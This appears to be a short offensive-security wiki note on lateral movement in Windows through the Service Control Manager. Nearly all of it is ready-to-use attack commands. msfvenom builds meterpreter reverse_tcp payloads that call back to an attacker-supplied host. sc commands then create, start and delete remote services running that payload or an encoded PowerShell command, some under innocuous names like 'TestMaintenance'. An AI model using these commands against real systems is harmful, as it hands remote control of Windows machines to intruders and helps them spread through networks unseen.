 # Service Control Manager

## 01 - Manual

### 1.1 - Usage

After we generate a reverse/bind shell refer to the techniques to copy the shell via [[Windows Lateral Movement References|SMB]]

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe-service -o shellsvc.exe

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh-cmd
```

Here's the following syntax

```
C:\> sc \\<IP> create <ServiceSVC> binpath= "c:\path\to\shellsvc.exe"

C:\> sc \\<IP> start <ServiceSVC>

C:\> sc \\<IP> delete <ServiceSVC>
```

### 1.2 - Use Cases

```
C:\> sc \\<IP> create pwshpayload binpath= "powershell -E <base64_encoded>"

C:\> sc \\<IP> start pwshpayload

C:\> sc \\<IP> delete pwshpayload

C:\> sc \\<IP> create TestMaintenance binpath= "c:\path\to\shellsvc.exe"

C:\> C:\> sc \\<IP> start TestMaintenance

C:\> C:\> sc \\<IP> delete TestMaintenance
```

---
## References

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)